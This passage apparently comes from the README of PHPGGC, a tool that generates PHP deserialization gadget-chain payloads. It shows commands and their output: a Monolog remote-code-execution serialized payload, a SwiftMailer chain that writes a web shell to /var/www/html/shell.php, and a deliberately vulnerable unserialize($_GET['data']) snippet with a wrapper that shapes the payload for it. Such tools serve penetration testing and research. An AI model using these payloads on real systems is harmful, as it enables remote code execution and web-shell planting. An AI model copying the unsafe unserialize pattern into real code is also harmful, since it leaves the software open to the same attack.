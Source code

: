 Use `-i` to get detailed information about a chain:

```
$ ./phpggc -i symfony/rce1
Name           : Symfony/RCE1
Version        : 3.3
Type           : rce
Vector         : __destruct
Informations   : 
Exec through proc_open()

./phpggc Symfony/RCE1 <command>
```

Once you have selected a chain, run `./phpggc <gadget-chain> [parameters]` to obtain the payload.
For instance, to obtain a payload for Monolog, you'd do:

```
$ ./phpggc monolog/rce1 assert 'phpinfo()'
O:32:"Monolog\Handler\SyslogUdpHandler":1:{s:9:"*socket";O:29:"Monolog\Handler\BufferHandler":7:{s:10:"*handler";r:2;s:13:"*bufferSize";i:-1;s:9:"*buffer";a:1:{i:0;a:2:{i:0;s:10:"phpinfo();";s:5:"level";N;}}s:8:"*level";N;s:14:"*initialized";b:1;s:14:"*bufferLimit";i:-1;s:13:"*processors";a:2:{i:0;s:7:"current";i:1;s:6:"assert";}}}
```

For a file write using SwiftMailer, you'd do:

```
$ echo 'It works !' > /tmp/data
$ ./phpggc swiftmailer/fw1 /var/www/html/shell.php /tmp/data
O:13:"Swift_Message":8:{...}
```


## Wrapper

The `--wrapper` (`-w`) option allows you to define a PHP file containing the following functions:

- `process_parameters($parameters)`: Called right **before** `generate()`, allows to change parameters
- `process_object($object)`: Called right **before** `serialize()`, allows to change the object
- `process_serialized($serialized)`: Called right **after** `serialize()`, allows to change the serialized string

For instance, if the vulnerable code looks like this:

```php
<?php
$data = unserialize($_GET['data']);
print $data['message'];
```

You could use a `__toString()` chain, wrapping it like so:

```php
<?php
# /tmp/my_wrapper.php
function process_object($object)
{
    return array(
        'message' => $object
    );
}
```
